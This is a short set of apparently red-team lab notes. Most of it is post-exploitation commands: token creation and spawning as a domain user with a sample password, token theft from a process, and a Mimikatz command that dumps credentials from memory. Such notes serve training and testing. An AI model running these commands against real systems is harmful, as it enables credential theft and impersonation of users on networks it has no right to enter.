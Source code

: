 ### Notes
```
make token cyberbotic.io\f.cohen Hunter2 SMB
spawnas cyberbotic.io\f.cohen Hunter2 SMB
steal_token 7750 
```
### Mimikatz
```
mimikatz sekurlsa::wdigest

```
